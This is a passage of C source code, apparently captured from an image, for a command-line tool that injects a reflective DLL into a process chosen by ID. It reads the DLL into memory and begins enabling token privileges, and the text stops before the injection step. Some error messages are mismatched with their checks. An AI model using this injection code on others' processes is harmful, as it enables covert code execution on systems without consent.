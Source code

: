 #pragma comment(lib,"Advapi32.lib")

#define BREAK_WITH_ERROR( e ) { printf( "[-] %s. Error=%d", e, GetLastError() ); break; }

// Simple app to inject a reflective DLL into a process vis its process ID.
int main( int argc, char * argv[] )
{
	HANDLE hFile          = NULL;
	HANDLE hModule        = NULL;
	HANDLE hProcess       = NULL;
	HANDLE hToken         = NULL;
	LPVOID lpBuffer       = NULL;
	DWORD dwLength        = 0;
	DWORD dwBytesRead     = 0;
	DWORD dwProcessId     = 0;
	TOKEN_PRIVILEGES priv = {0};

#ifdef WIN_X64
	char * cpDllFile  = "reflective_dll.x64.dll";
#else
#ifdef WIN_X86
	char * cpDllFile  = "reflective_dll.dll";
#else WIN_ARM
	char * cpDllFile  = "reflective_dll.arm.dll";
#endif
#endif

	do
	{
		// Usage: inject.exe [pid] [dll_file]

		if( argc == 1 )
			dwProcessId = GetCurrentProcessId();
		else
			dwProcessId = atoi( argv[1] );

		if( argc >= 3 )
			cpDllFile = argv[2];

		hFile = CreateFileA( cpDllFile, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
		if( hFile == INVALID_HANDLE_VALUE )
			BREAK_WITH_ERROR( "Failed to open the DLL file" );

		dwLength = GetFileSize( hFile, NULL );
		if( dwLength == INVALID_FILE_SIZE || dwLength == 0 )
			BREAK_WITH_ERROR( "Failed to get the DLL file size" );

		lpBuffer = HeapAlloc( GetProcessHeap(), 0, dwLength );
		if( !lpBuffer )
			BREAK_WITH_ERROR( "Failed to get the DLL file size" );

		if( ReadFile( hFile, lpBuffer, dwLength, &dwBytesRead, NULL ) == FALSE )
			BREAK_WITH_ERROR( "Failed to alloc a buffer!" );

		if( OpenProcessToken( GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken ) )
		{
			priv.PrivilegeCount           = 1;
			priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
